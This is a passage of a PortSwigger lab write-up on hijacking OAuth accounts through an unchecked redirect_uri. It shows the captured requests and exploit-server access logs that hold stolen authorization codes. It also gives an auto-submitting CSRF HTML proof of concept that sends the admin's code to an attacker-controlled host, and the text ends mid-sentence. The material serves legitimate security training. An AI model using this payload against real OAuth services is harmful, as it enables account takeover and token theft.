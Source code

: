 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5438bb93-8522-4978-a565-699cd374954c)

## Solution :

### Recon -

On clicking My-Account, the client service provider starts the authorization request .

```http
GET /auth?client_id=ioxlc8nxu9vqpn2iannk6&redirect_uri=https://0a0d007903e19d4b819ee0f2000900fa.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email HTTP/2
Host: oauth-0ada00bb030d9d1b81e2de3302e2007a.oauth-server.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: _session=O2bnIQAJVrm-7Kx763gMt; _session.legacy=O2bnIQAJVrm-7Kx763gMt
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
```
The identity provider asks us to enter username and password.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/ca3147de-9d3e-468a-9271-7deff6acd3e6)

In the next step , it asks for user's consent for the permissions that are requested by the client application.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/23950306-848f-4b5c-a035-cb113f53245e)

Upon accepting the permissions, we are  now logged-in to the website. 

So next time when we click My-Account, we are automatically logged in.

### Exploitation -

In the *authorization request*, we can now check if the **redirect_uri** parameter is vulnerable to openredirect vulnerability. If it is, then we can smuggle the authorization token to our attacker server & use it to impersonate/ retreive sensitive information of the victim user.

Send the **authorization request** to repeater tab. Change the **redirect_uri** parameter to exploit server's address - `https://exploit-0a1c004203519de781f7df5501b400ec.exploit-server.net/exploit` & send the request.

Notice that the token is sent to our exploit server address. This confirms that we can steal Oauth authorization tokens.

```
152.58.208.9    2023-09-22 18:22:09 +0000 "GET / HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0"
152.58.208.9    2023-09-22 18:22:09 +0000 "GET /resources/css/labsDark.css HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0"
152.58.208.98   2023-09-22 18:33:07 +0000 "GET /exploit?code=NuRYCmoK5_4DWBlQVJQ06MDZDORJFcjxtVwnW3bW3rN HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0"
152.58.208.98   2023-09-22 18:33:15 +0000 "POST / HTTP/1.1" 302 "user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0"
```

### Stealing admin's token -

Since the authorization request does not have an **state** paraemter, we can perform an CSRF attack on the admin user & trick him to click on the link where the admin will trigger the Oauth flow & then the token will be sent to our exploit server(since we have changed the redirect_URI parameter to our exploit-server address).

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://oauth-0ada00bb030d9d1b81e2de3302e2007a.oauth-server.net/auth">
      <input type="hidden" name="client&#95;id" value="ioxlc8nxu9vqpn2iannk6" />
      <input type="hidden" name="redirect&#95;uri" value="https&#58;&#47;&#47;exploit&#45;0a1c004203519de781f7df5501b400ec&#46;exploit&#45;server&#46;net&#47;exploit" />
      <input type="hidden" name="response&#95;type" value="code" />
      <input type="hidden" name="scope" value="openid&#32;profile&#32;email" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

On viewing  Access-log, we can see that the admin indeed clicked on it &

```
10.0.3.157      2023-09-22 18:37:57 +0000 "GET /exploit?code=MGF85I7ysfs8oV0yOa2G-v87f3i9M6pjXTZSowwddwL HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
```
